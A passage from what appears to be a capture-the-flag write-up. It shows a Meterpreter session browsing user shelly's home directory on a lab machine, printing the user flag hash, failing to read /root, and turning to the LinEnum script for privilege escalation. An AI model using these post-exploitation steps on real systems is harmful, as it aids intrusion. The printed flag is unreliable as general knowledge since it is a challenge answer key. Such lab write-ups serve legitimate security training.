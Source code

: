 
Amazing! We're in!

### OWN USER

```
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2017-09-22 15:49:12 -0400  shelly

meterpreter > cd shelly
meterpreter > ls
Listing: /home/shelly
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-09-25 08:29:38 -0400  .bash_history
100644/rw-r--r--  220   fil   2017-09-22 12:33:54 -0400  .bash_logout
100644/rw-r--r--  3771  fil   2017-09-22 12:33:54 -0400  .bashrc
40700/rwx------   4096  dir   2017-09-22 12:35:28 -0400  .cache
40775/rwxrwxr-x   4096  dir   2017-09-22 15:49:12 -0400  .nano
100644/rw-r--r--  655   fil   2017-09-22 12:33:54 -0400  .profile
100644/rw-r--r--  66    fil   2017-09-22 15:43:04 -0400  .selected_editor
100644/rw-r--r--  0     fil   2017-09-22 12:35:31 -0400  .sudo_as_admin_successful
100644/rw-r--r--  33    fil   2017-09-22 15:37:05 -0400  user.txt

meterpreter > cat user.txt
2ec24e11320026d1e70ff3e16695b233
```

### OWN MACHINE

Attempting to go straight for `/root/root.txt` directly (as expected) doesn't work:

```
meterpreter > ls /root
[-] stdapi_fs_ls: Operation failed: 1
```

If we recall, in the `/home` directory of user `shelly`, we saw a file called
`.sudo_as_admin_successful`.  Might that be a hint that we should be attempting to `sudo`
to an administrator user?  Let's get some help from automated Linux Priviledge Escalation
tool..

```
https://www.rebootuser.com/?p=1758

LinEnum will automate many of the checks that I’ve documented in the Local Linux
Enumeration & Privilege Escalation Cheatsheet. It’s a very basic shell script that
performs over 65 checks, getting anything from kernel information to locating possible
escalation points such as potentially useful SUID/GUID files and Sudo/rhost
mis-configurations and more.
```
